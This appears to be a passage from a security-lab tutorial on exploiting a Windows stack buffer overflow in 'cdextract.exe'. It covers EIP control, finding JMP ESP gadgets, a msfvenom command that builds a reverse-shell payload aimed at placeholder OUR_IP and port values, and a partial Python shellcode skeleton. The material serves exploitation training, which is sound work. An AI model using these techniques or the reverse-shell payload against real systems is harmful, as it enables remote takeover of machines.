 As we have confirmed that we can control the address stored in `EIP` when the program executes the return instruction `ret`, we know that we can subvert the program execution and have it execute any instruction we want by writing the instruction's address to `EIP`, which would get executed after the return instruction `ret`. We will utilize a method known as `Jumping to Stack`.

To direct the execution flow to the stack, we must write an address to `EIP` to do so. This can be done in two ways :

1. Write the `ESP` address (top of the stack) to `EIP`, so it starts executing code found at the top stack
2. Using a `JMP ESP` instruction, which directs the execution flow to the stack

The more reliable way of executing shellcode loaded on the stack is to find an instruction used by the program that directs the program's execution flow to the stack. We can use several such instructions, but we will be using the most basic one, `JMP ESP`, that jumps to the top of the stack and continues the execution.

```cmd-session
ERC --ModuleInfo
```

We find many modules loaded by the program. However, we can skip any files with :

- `NXCompat`: As we are looking for a `JMP ESP` instruction, so the file should not have stack execution protection.
- `Rebase` or `ASLR`: Since these protections would cause the addresses to change between runs


`ctrl+f`, which allows us to search for any instruction within the opened file `cdextract.exe`.
Now we can search using this pattern by clicking `ctrl+b` in the `CPU` pane and entering the pattern `54C3` for PUSH ESP; RET.

## Jumping to Shellcode : 

```shell-session
NolanCarougeHTB@htb[/htb]$ msfvenom -l payloads | grep
```

```shell-session
NolanCarougeHTB@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python' -b '\x00'
```

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf =  b""
    buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"
```

1. `buffer`: We can fill the buffer by writing `b"A"*offset`
2. `EIP`: The following 4 bytes should be our return address
3. `buf`: After that, we can add our shellcode

In the previous section, we've found multiple return addresses that can work in executing any shellcode we write on the stack:
